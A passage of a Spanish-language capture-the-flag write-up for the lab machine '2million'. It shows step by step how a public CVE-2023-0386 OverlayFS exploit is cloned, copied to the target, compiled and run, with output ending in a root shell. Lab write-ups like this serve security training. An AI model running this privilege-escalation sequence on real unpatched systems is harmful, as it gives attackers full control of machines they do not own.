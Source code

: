 En github buscamos un exploit rapido de usar `https://github.com/sxlmnwb/CVE-2023-0386`, lo descargo localmente y lo comprimo.

```bash 
$ git clone https://github.com/sxlmnwb/CVE-2023-0386
$ zip -r cve.zip CVE-2023-0386
```

Luego lo envio a la maquina victima en carpeta `temp` de `admin`
```bash 
$ scp cve.zip admin@2million.htb:/tmp
cve.zip

$ cd /tmp
$ unzip cve.zip
```

Seguimos las instrucciones del Github y generamos los ejecutables 
```bash 
$ cd /tmp/CVE-2023-0386/
$ make all

admin@2million:/tmp/CVE-2023-0386$ ls
exp  exp.c  fuse  fuse.c  gc  getshell.c  Makefile  ovlcap  README.md  test
``` 

Se generan `exp` `fuse` y `gc`

Ejecutamos los comandos del github
```bash
$ ./fuse ./ovlcap/lower ./gc 
[+] len of gc: 0x3ee0
[1] 6153

$ ./exp
uid:1000 gid:1000
[+] mount success
[+] readdir
[+] getattr_callback
/file
total 8
drwxrwxr-x 1 root   root     4096 Apr 27 16:14 .
drwxr-xr-x 6 root   root     4096 Apr 27 16:14 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

$ root@2million:/tmp/CVE-2023-0386# whoami
root
```
# Root flag